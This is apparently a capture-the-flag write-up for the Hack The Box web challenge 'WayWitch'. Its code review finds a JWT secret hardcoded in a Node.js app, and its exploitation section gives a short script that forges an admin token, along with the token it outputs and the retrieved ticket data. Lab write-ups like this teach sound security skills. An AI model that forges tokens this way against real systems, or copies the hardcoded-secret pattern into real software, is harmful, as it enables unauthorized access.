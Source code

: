 ```yaml
---
title: WayWitch - Hack The Box
date: 2024-12-10
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# WayWitch

## Challenge description

Hidden in the shadows, a coven of witches communicates through arcane tokens, their messages cloaked in layers of dark
enchantments. These enchanted tokens safeguard their cryptic conversations, masking sinister plots that threaten to
unfold under the veil of night. However, whispers suggest that their protective spells are flawed, allowing outsiders to
forge their own charms. Can you exploit the weaknesses in their mystical seals, craft a token of your own, and 
infiltrate their circle to thwart their nefarious plans before the next moon rises? NOTE: use https:// to connect to the
instance

## Challenge overview

In this challenge, we are presented with a web application that allows unauthenticated users to submit tickets to a
witches' coven.

![WayWitch - Overview](/ctf/hack-the-box/challenges/web/way-witch/overview.png){style="display: block; margin: 0 auto"}

## Code Review

### database.js

The application utilizes a SQLite3 database to store ticket information. The `tickets` table is pre-populated with
several entries, including one from the `admin` user containing the flag:

```javascript
await this.db.exec(`
      INSERT INTO tickets (name, username, content) VALUES
      ('John Doe', 'guest_1234', 'I need help with my account.'),
      ('Jane Smith', 'guest_5678', 'There is an issue with my subscription.'),
      ('Admin', 'admin', 'Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter ${flag}'),
      ('Paul Blake', 'guest_9012', 'Can someone assist with resetting my password?'),
      ('Alice Cooper', 'guest_3456', 'The app crashes every time I try to upload a picture.');
  `);
```

### rootes/index.js

The `/tickets` route displays the contents of the `tickets` table. Access to this route is restricted to users 
authenticated as `admin`:

```js
router.get("/tickets", async (req, res) => {
    const sessionToken = req.cookies.session_token; // [!code focus]

    if (!sessionToken) {
        return res.status(401).json(response("No session token provided"));
    }

    try {
        const username = getUsernameFromToken(sessionToken); // [!code focus]

        if (username === "admin") { // [!code focus]
            try {
                const tickets = await db.get_tickets(); // [!code focus]
                return res.status(200).json({ tickets }); // [!code focus]
            } catch (err) {
                return res
                    .status(500)
                    .json(response("Error fetching tickets: " + err.message));
            }
        } else {
            return res
                .status(403)
                .json(response("Access denied. Admin privileges required."));
        }
    } catch (err) {
        return res.status(400).json(response(err.message));
    }
});
```

This route checks for a `session_token` cookie, extracts the username using the `getUsernameFromToken` function, and
verifies if the user is `admin`. If so, it retrieves and returns the tickets; otherwise, it denies access.

### utils.js

The `getUsernameFromToken` function decodes the session token to extract the username:

```javascript
const jwt = require("jsonwebtoken");

function getUsernameFromToken(token) {
    const secret = "halloween-secret";

    try {
        const decoded = jwt.verify(token, secret);
        return decoded.username;
    } catch (err) {
        throw new Error("Invalid token: " + err.message);
    }
}
```

This function uses the `jsonwebtoken` library to verify and decode the token with the secret key `halloween-secret`. By
crafting a valid token with the username set to `admin`, an attacker can gain unauthorized access to the `/tickets`
route.

## Exploitation

To exploit this vulnerability, we can create a JSON Web Token (JWT) with the payload `{ "username": "admin" }` and sign
it using the secret key `halloween-secret`. This can be achieved using the `jsonwebtoken` library in Node.js:

```javascript
const jwt = require("jsonwebtoken");

console.log(jwt.sign({ username: "admin" }, "halloween-secret"));
```

Running this script will output a JWT:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNzMzODY4MzQ3fQ.kmpxqrB-pmEqJf51ASzid27tIYtPRVZALeoriRSByqk
```

By setting this token as the value of the `session_token` cookie in the browser, we can access the `/tickets` route and
retrieve the flag:

```json
{
    "tickets": [
        {
            "id": 1,
            "name": "John Doe",
            "username": "guest_1234",
            "content": "I need help with my account."
        },
        {
            "id": 2,
            "name": "Jane Smith",
            "username": "guest_5678",
            "content": "There is an issue with my subscription."
        },
        { // [!code focus]
            "id": 3, // [!code focus]
            "name": "Admin", // [!code focus]
            "username": "admin", // [!code focus]
            "content": "Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}\n" // [!code focus]
        }, // [!code focus]
        {
            "id": 4,
            "name": "Paul Blake",
            "username": "guest_9012",
            "content": "Can someone assist with resetting my password?"
        },
        {
            "id": 5,
            "name": "Alice Cooper",
            "username": "guest_3456",
            "content": "The app crashes every time I try to upload a picture."
        }
    ]
}
```

The flag is in the content of the ticket created by the `admin` user:

```
Top secret: The Halloween party is at the haunted mansion this year. Use this code to enter HTB{f4k3_fl4g_f0r_t35t1ng}
```

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="WayWitch"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/807"
/>

## References

- [jsonwebtoken](https://www.npmjs.com/package/jsonwebtoken)
